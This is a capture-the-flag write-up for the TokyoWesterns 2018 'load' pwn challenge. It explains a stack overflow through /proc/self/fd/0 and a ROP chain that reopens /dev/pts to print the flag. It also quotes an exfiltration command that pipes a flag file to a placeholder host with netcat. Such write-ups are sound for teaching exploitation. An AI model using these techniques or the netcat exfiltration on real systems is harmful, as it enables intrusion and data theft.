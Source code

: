 ```yaml
---
layout: post
title: "TokyoWesterns CTF 2018 - load (pwn)"
description: ""
date: 2018-09-03
tags: [ctf, pwn]
comments: true
---
```


> host : pwn1.chal.ctf.westerns.tokyo

> port : 34835 (Solves: 49, 208 pts)

> [load][load] [+exploit.py][exploit]

This challenge runs a binary that is a **Load file Service**, which allows you to read any file on the system, which it will open and write the file contents to a buffer on the stack. The `filename` that we enter is limited to 128-bytes and is placed in a variable in the bss section, we should take note of that. From this description, it is quite obvious that we are going for a stack-based buffer overflow which will allow us to control the saved RIP on the stack, as long as the file read is larger than the buffer size, it will overflow. 

## Controlling RIP

This brings the question of what file to read, since we do not control any files on the challenge server, and even though we could overflow it by reading some arbitrary big file in the system, if we do not control its contents, we are unable to significantly control execution flow of the program to get a flag. The solution is to read a file we CAN control, `/proc/self/fd/0`. This file is a symbolic link created for each process which allows us to read data from the terminal, fd 0 refers to STDIN while fd 1 would be STDOUT, thus if we read from fd 0, we can send a ROP chain to overflow the buffer.

```
Load file Service
Input file name: /proc/self/fd/0
Input offset: 0
Input size: 100
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Load file complete!
Segmentation fault (core dumped) <= YAY
```


## No Leaks?

So now that we are able to control execution flow, I notice the next issue. Right before main returns, there is a call to `close_fd()`, which closes the file descriptors for STDIN, STDOUT and STDERR. What this means is that we will no longer be able to read data from the user or print data to the screen.

{% highlight C %}
int close_fd()
{
  close(0);
  close(1);
  close(2);
  return;
}
{% endhighlight %}

This is an issue as generally, we assume that 99% of CTF pwn challenges have ASLR enabled, thus the libc will be mapped to a random address space for each execution of the binary. This either forces us to leak the libc address so we can call functions that are not in the PLT (PLT functions have a static addresses) or only use functions present in the PLT. The PLT actually contains `open`, `read`, and `puts`, so we actually do not need to leak the libc base address to read the flag, however we still need STDOUT to be open to see the flag on our side. So I thought of two solutions.

1) If we can find the appropriate gadgets, maybe we could run `execve` with syscalls and run a command like `cat flag | nc [myip] 1337` which would give us the flag. But I was unable to find any syscall gadgets, and this would be a very difficult operation to do with only syscalls

2) Find some way to reopen STDOUT

I settled with the second way as it's probably easier.

## Reopening STDOUT

After a file descriptor is closed, the file descriptor will be "free'd" and the next call to the `open` syscall would return the lowest free file descriptor possible. Since `close_fd()` closed file descriptors `0, 1, 2`, our next three calls to `open` would return these file descriptors. If you run `strace` on a program calling `puts`, you will notice that a puts call for example `puts("Load file complete!")` is actually just `write(1, "Load file complete!", 19)     = 19`. This is useful as now we know that the second file we open to will be written to by the puts call. If we can somehow read from that file from our remote connection, we can see the flag. After knowing this I did some googling and tried random files like `/dev/tty` after seeing shellcodes like [this][shellcode], but tty didn't work, I think it's because we aren't in a terminal. Trying to call open on `/proc/self/fd/1` wouldn't work as after the fd is closed, so is the file. After messing around, I realised that `/proc/self/fd/1` is just a symlink to another file `/dev/pts/?`. I tried opening the correct `/dev/pts/?` twice so that fd 1 == `/dev/pts/?` with a simple puts ROP chain and it worked!

## Finishing up

Now that we know we can leak, we just have to write a simple ROP chain to open the flag file and read it back to ourselves. The ROP chain I used did the following `open("/dev/pts/?") * 2 => open("/home/load/flag.txt") => read(3(flag), 0x601000(random bss addr), 10000)`, using our `filename` buffer in the bss to store filenames for the three files, since it has a static address. And we get the flag! Just a note, `/dev/pts/?` has question mark as it seems that the pts our connection uses keeps changing, but changing it randomly between 0-3 seemed to work reliably enough for my purposes. Also, there weren't easy gadgets for a `pop rdx` instruction for the third argument in the `read` call, so I had to use `csu_init` which helps to set my rdx register.

`TWCTF{pr0cf5_15_h1ghly_fl3x1bl3}`

[load]:{{site.baseurl}}/ctf/TokyoWesterns18/load/load
[exploit]:{{site.baseurl}}/ctf/TokyoWesterns18/load/exploit.py
[shellcode]: http://shell-storm.org/shellcode/files/shellcode-219.php